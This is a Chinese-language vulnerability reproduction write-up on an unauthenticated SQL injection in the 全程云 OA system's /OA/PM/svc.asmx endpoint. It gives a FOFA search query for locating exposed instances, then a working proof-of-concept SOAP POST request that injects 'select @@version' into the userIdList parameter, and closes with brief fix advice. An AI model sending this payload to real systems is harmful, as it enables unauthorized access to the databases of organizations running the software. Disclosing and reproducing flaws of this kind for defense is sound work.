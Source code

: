 
# 全程云 OA SQL 注入漏洞复现

### 0x01 产品简介

  全程云 OA 为企业提供日常办公管理、公文管理、工作请示、汇报、档案、知识体系、预算控制等 26 个功能，超过 100 多个子模块。为企业内部提供高效、畅通的信息渠道，同时也能大力推动公司信息系统发展，提高企业的[办公自动化](https://so.csdn.net/so/search?q=%E5%8A%9E%E5%85%AC%E8%87%AA%E5%8A%A8%E5%8C%96&spm=1001.2101.3001.7020)程度和综合管理水平，加快企业信息的流通，提高企业市场竞争能力。

### 0x02 漏洞概述

 由于全程云[oa 办公系统](https://so.csdn.net/so/search?q=oa%E5%8A%9E%E5%85%AC%E7%B3%BB%E7%BB%9F&spm=1001.2101.3001.7020)/OA/PM/svc.asmx页面参数过滤不当，导致存在sql注入漏洞，未授权的攻击者可利用该漏洞获取数据库中的敏感信息。

### 0x03 复现环境

FOFA：body="images/yipeoplehover.png"

![](assets/1701071191-447d654507c9eb2faa2bffb13639721c.png)

### 0x04 漏洞复现 

PoC

```cobol
POST /OA/PM/svc.asmx HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: text/xml
Accept-Encoding: gzip
Connection: close

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetUsersInfo xmlns="http://tempuri.org/">
      <userIdList>select @@version</userIdList>
    </GetUsersInfo>
  </soap:Body>
</soap:Envelope>
```

查询数据库版本

![](assets/1701071191-a4945ecdf05c066fbf10b850e694fe5a.png)

### 0x05 修复建议 

 使用预编译语句。

对进入数据库的特殊字符进行转义处理。
